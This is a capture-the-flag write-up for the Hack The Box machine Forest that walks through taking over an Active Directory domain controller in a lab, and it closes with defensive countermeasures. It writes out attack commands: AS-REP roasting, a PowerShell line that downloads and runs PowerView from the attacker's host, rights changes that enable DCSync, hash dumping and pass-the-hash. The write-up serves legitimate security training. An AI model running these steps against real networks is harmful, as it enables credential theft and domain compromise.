 # HTB: Forest Writeup w/o Metasploit
![forest](https://user-images.githubusercontent.com/48168337/166676766-68748299-2055-46cc-bb97-6a481b49eaa1.png)

## Introduction
Forest is definitely one of my favorite boxes because it allows us to play with another real world service, Active Directory. I love working with these, because a lot if not most organizations have some type of Directory Service. This is a great box to get your hands-on a real-world scenario. Alright, let's get right into it.


## Recon
The first thing I did here was kick off some nmap scans per usual.

![nmap](https://user-images.githubusercontent.com/48168337/166676854-6aac1c61-c438-4b86-b734-6d39084b9f45.JPG)

(*nmap -n -Pn -p- - open -oN full-scan-10.10.10.161 10.10.10.161*)


There are a bunch of ports open on this box. You can see we have DNS, Kerberos, LDAP, WinRM, and other services available. I talk more about these services during the video walkthrough. I will share at the end of the writeup. Based on the services available, we can assume this is probably some kind of Active Directory Service or Domain Controller. Lets gather more information using enum4linux.

![users](https://user-images.githubusercontent.com/48168337/166677091-23a84306-ff82-4c7f-b960-9a0f67e506c8.JPG)

## Enumeration 
Enum4linux returned a lot of information. What stood out to me the most were the user accounts; it even looks like we found a service account (svc-alfresco). We'll actually being using this later.

We don't have any passwords for these user accounts, so we can't log in with them just yet. But we can try to brute force them with an AS-REP Roasting attack. Why this attack? Because this box has Kerberos running on it. If pre-authentication isn't enabled, Kerberos can be vulnerable to an AS-REP Roasting attack. AS-REP Roasting targets Kerberos and tries to request a TGT ticket (hash) which we "try" to crack. To do the AS-REP Roasting we'll use Impacket. This, I believe, comes preinstalled on Kali Linux under /usr/share/doc/python3-impacket/examples/. The Impacket script we'll use is GetNPUsers.py.

![pre-auth](https://user-images.githubusercontent.com/48168337/166677134-5c313cb3-a54c-44b1-98e1-5cf94441d7d6.JPG)

(*python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py htb.local/ -usersfile ldap_users.txt -dc-ip 10.10.10.161*)

## Initial Exploitation
Cool. The attack works and gives us svc-alfresco's TGT (hash). Let's throw it into John and try to crack the password. FYI: I put the hash inside of a file before using it with John. And since I've already cracked the hash, I had to run the "--show" option to show the cleartext password.

![1](https://user-images.githubusercontent.com/48168337/166677905-057f3d2c-500b-47af-96ba-ddcd849bb799.JPG)


Sweet. Now we have svc-alfresco's password. Now what? Well, when looking for next steps, I tend to look back at the services and loot we have available. There was a WinRM service running on this box, and we have credentials to use. Let's try it against the WinRM service. If you're not familiar with it, WinRM is a Windows Remote Service we can use for remote logins (kind of like ssh). We'll use the evil winrm tool to login as svc-alfresco.

![2](https://user-images.githubusercontent.com/48168337/166678044-bd59ef6f-34c6-4f36-be12-1193268da556.JPG)


## Privilege Escalation
Alright, we finally have access to the box. Let's cut right to it and escalate our privileges. We know this is some sort of Directory server since it has LDAP services enabled, and the name of the box is Forest (Active Directory) lol. Because of that, let's use Sharphound and Bloodhound to extract AD objects. If you've never used them before, don't worry, they are pretty easy to use. I'll break them down further during our walkthrough video. For now, Sharphound collects the AD objects and Bloodhound analyzes it. There are other ways to collect the objects but we're going to use Sharphound (*https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors*).


First, we'll need to download sharphound to our local machine and then transfer it to the target box (forest). Use the github repo above to download sharphound. Then start up a webserver on your local machine so you can retrieve the file over http from the target box.
![3](https://user-images.githubusercontent.com/48168337/166678040-35f6e886-1c46-4760-807d-509d828243ed.JPG)



Afterwards start sharphound with ./sharphound.exe -c all. This will try to collect everything it can regarding AD objects. It will save all of this in a zip file. We'll need to transfer that zip file back to our local box and upload it into Bloodhound. To do this, I'm going to start a smbserver on my local machine and send the zip file to my smbserver; I'm going to rename the zip file first to something a bit easier to type out.

![4](https://user-images.githubusercontent.com/48168337/166678041-7f07d11e-c479-4687-b737-61ed8fb6ee4d.JPG)



Now we have the file on our local kali box. We just need to start up neo4j (Bloodhound's database server), then start up Bloodhound, and then upload the zip file into Bloodhound. FYI: You may have to setup neo4j. It isn't too much work; I think you just need to change the default password after starting the service.


To start neo4j, enter "neo4j console" into the terminal. To start Bloodhound, we just need to type and enter "bloodhound."
![5](https://user-images.githubusercontent.com/48168337/166678042-1412161a-18d9-4a7a-91b0-65890ed27b4e.JPG)


Once Bloodhound is started up, select the "upload data" button towards the right and upload your zip file.

![image](https://user-images.githubusercontent.com/48168337/166678538-4d000810-1205-461a-828d-32779fcfe27f.png)


In this writeup, I won't do too much explaining of Bloodhound, we'll save that for the video walkthrough. Let's use the search bar to look for the svc-alfresco.

![image](https://user-images.githubusercontent.com/48168337/166678586-66f028ff-4efe-4e4d-acb9-2dad3d2e4a9f.png)

Since we cracked the password. Right click on the user icon and select "mark user as owned."

![image](https://user-images.githubusercontent.com/48168337/166678651-2607694d-640d-46ba-a458-2f73d238916c.png)


Next let's use the Analysis tab to find the "Shortest Path to High Value Targets."

![image](https://user-images.githubusercontent.com/48168337/166678706-983d8df4-8a3f-4325-8df8-d27ba0381897.png)


This will look like a soup sandwich, so I'm only going to show what we're interested with. The "Exchange Windows Permissions" Group has WriteDacl permissions to HTB.local.

![image](https://user-images.githubusercontent.com/48168337/166678739-43e34fc9-0775-4157-b4aa-fbb34103239d.png)


This means that group can modify permissions on HTB.local. In other words, they can grant themself any privileges they want on HTB.local. But we'll need access to a user account in that group. Right click "Exchange Windows Permission" group and select "shortest path to here from owned." This will show us our (svc-alfresco's) permissions regarding that group.
![image](https://user-images.githubusercontent.com/48168337/166678792-7f8d20ad-f3d0-462a-986b-d5475fbb5112.png)


As you can see, we are members of the Account Operators group, which has GenericAll access to the "Exchange Windows Permissions" group. This means we have full control of "Exchange Windows Permissions" group, so we should be able to add a user to that group. Once our new user is in that group, we will abuse the Write Dacl to perform a Dsync attack against htb.local.

Dsync attacks remind me of DNS zone transfers where you're replicating all the DNS entries from one DNS server to another. Dsync replicates Domain Controller information to another (our box). This includes the password hashes for other accounts. Fortunately, Bloodhound shows us the steps we need to do the Dsync attack. You just have to right click "write dacl" and select the "abuse info" tab.

![image](https://user-images.githubusercontent.com/48168337/166678866-116caecc-9ae1-4f35-880e-5668f2058083.png)

Ok, let's go ahead and create the new account first.

![image](https://user-images.githubusercontent.com/48168337/166678906-d617673d-31da-4178-b2f7-14b409e5a475.png)


Then we'll add it to the right group.

![image](https://user-images.githubusercontent.com/48168337/166678947-15b1789b-8a27-4ddc-85fc-563b6c804881.png)

Now we run the Dsync attack steps from Bloodhound. The only thing we'll need for this to work is the PowerView.ps1 script (*https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1*). This script is the first thing that gets executed. Make sure you're hosting the script via http (python webserver) so we can execute it. Once you're http service is running use the lines below, one a time, to setup the dsync attack.

1. IEX(New-Object Net.WebClient).downloadString('http://10.10.14.7/PowerView.ps1')
2. $SecPassword = ConvertTo-SecureString 'olinesecurity' -AsPlainText -Force
3. $Cred = New-Object System.Management.Automation.PSCredential('HTB\kage', $SecPassword)
4. Add-ObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity kage -Rights DCSync

![image](https://user-images.githubusercontent.com/48168337/166679026-77f2b38a-e51f-4930-8c5a-4803cd6bd186.png)

Cool. Everything is now setup for us to do the dsync attack. There are several ways to perform this. The Bloodhound instructions uses mimikatz. I'm going to use another Impacket script (secretsdump.py). This will be done locally from my kali box.

![image](https://user-images.githubusercontent.com/48168337/166679059-77637135-3178-446e-a4f7-d954c9f1073d.png)

As a result, we get a bunch of hashes for various user accounts. From here we can simply do a pass the hash attack with a tool of your choice; I used psexec.

![image](https://user-images.githubusercontent.com/48168337/166679069-750c7c1f-1bd8-4bb2-874d-df3814f1859d.png)


## Conclusion
And that's its folks. Forest could have been extremely difficult if you have 0 experience with Directory Services and Kerberos. Nonetheless, it was a great challenge and learning experience.

## AAR
A few countermeasures before we go.
(1) Anonymous users shouldn't be able to remotely list account names and resources. We did this with enum4linux. This is how we found the service account (svc_alfresco). 
(2) Pre-authentication should be enabled to prevent the AS-REP roasting attack. With this enabled we wouldn't be able to get svc_alfresco's TGT hash. 
(3) Better group access controls may have prevented us from creating our own access controls to perform the Dsync attack. 
(4) Furthermore, we want to try and prevent the Dsync attack. This can be difficult to do since its abusing normal Active Directory functionality. However, we can prevent the attack by limiting the users and groups that can replicate directory changes. All in all, what made this box exciting was it being a use-case scenario. Hopefully, you enjoyed this writeup. I will share a video walkthrough here shortly.